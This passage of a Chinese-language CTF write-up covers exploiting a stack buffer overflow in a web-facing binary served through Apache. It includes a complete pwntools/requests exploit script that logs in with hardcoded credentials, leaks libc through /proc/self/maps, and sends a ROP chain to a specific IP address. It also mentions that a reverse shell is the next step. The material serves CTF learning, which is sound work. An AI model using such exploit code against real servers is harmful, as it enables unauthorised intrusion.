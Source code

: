 - 很明显在memcpy时n没有进行限制，且没有canary，栈溢出可以直接利用
- `char a[100]; // [rsp+10h] [rbp-88h]`，即IDA分析结果，0x88字节即可溢出
- 并且`v9 = a;`，故意将栈地址放到了栈上可以进行泄露
- 内存布局可以通过读取文件系统中的`/proc/self/maps`进行泄露
- libc可以直接下载

但是和平时pwn有区别，这里的和我们的交互是apache，我们想看到执行的结果需要让apache正常返回，直接执行命令的输出是在apache的tty上，我们远程无法看到，所以需要反弹shell。

## 测试利用

### sleep 成功

因为无法回显，所以通过调用sleep函数，测试是否劫持控制流成功，ROP的payload如下：

```python
payload = "a"*0x88
payload += p64(pop_rdi) + p64(5) + p64(libc.symbols['sleep'])
```

完整exp如下，发现的确延迟返回了，证明控制流劫持成功。

```python
from pwn import *
import requests,re

url  = "http://134.175.185.244"
libc = ELF("./libc.so")
session = requests.Session()

def login():
    paramsPost = {"password":"goodlucktoyou","submit":"submit","username":"admin"}
    session.post(url+"/index.php", data=paramsPost)

def send(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return re.findall('\<\/form\>(.*?)\<br\>',response.content)[0]

def read(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return response.content[1517+len(payload):-1]

login()

# leak libc and stack
libc.address = int('0x'+re.findall('(.*?)libc-2.28',read("/proc/self/maps"))[0][:12],16)
log.warn("libc: "+str(hex(libc.address)))

# gadget
pop_rdi  = libc.address + 0x023a5f

payload = "a"*0x88
payload += p64(pop_rdi) + p64(5) + p64(libc.symbols['sleep'])
send(payload)
```
